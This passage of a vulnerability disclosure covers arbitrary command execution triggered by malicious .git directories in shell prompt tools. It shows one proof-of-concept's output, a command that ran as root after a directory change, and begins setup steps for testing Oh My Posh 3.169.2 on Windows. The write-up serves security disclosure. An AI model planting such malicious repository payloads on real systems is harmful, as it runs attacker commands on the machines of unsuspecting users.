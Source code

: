 Show that `/tmp/win` does not exist. `cd` into the directory containing the malicious `.git` directory and show that `/tmp/win` now contains the results of our payload:

```plain
➜  tmp.ZfzZ5FG196 cat /tmp/win
cat: /tmp/win: No such file or directory

➜  tmp.ZfzZ5FG196 cd poc

➜  poc git:(main) cat /tmp/win

Pwned as uid=0(root) gid=0(root) groups=0(root)
```

## Oh My Posh - Arbitrary Command Execution

Version tested: [3.169.2](https://github.com/JanDeDobbeleer/oh-my-posh/tree/v3.169.2) on Windows 10

[Oh My Posh](https://ohmyposh.dev/docs/) is a "custom prompt engine for any shell that has the ability to adjust the prompt string with a function or variable" although it seems to be geared towards PowerShell users.

Oh My Posh provides a [Git segment](https://ohmyposh.dev/docs/git) which is enabled in the [jandedobbeleer theme](https://github.com/JanDeDobbeleer/oh-my-posh/blob/7bf528ef11b300bdbe64755211b096055f7b5fda/themes/jandedobbeleer.omp.json#L32-L47) that is suggested in the [installation guide](https://ohmyposh.dev/docs/pwsh)

### Oh My Posh POC

Install [Git for Windows](https://git-scm.com/download/win) ensuring you choose for the PATH to be set up such that you can use "Git from the command line and also from 3rd-party software" (the default).

Launch PowerShell:

```plain
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Users\justin>
```

Install Oh My Posh:

```plain
PS C:\Users\justin> Install-Module oh-my-posh -Scope CurrentUser

[... SNIP ...]
```

Get its version:

```plain
PS C:\Users\justin> Get-Module oh-my-posh

ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Script     3.169.2    oh-my-posh                          {Get-PoshInfoForV2Users, Get-PoshThemes, ..
```
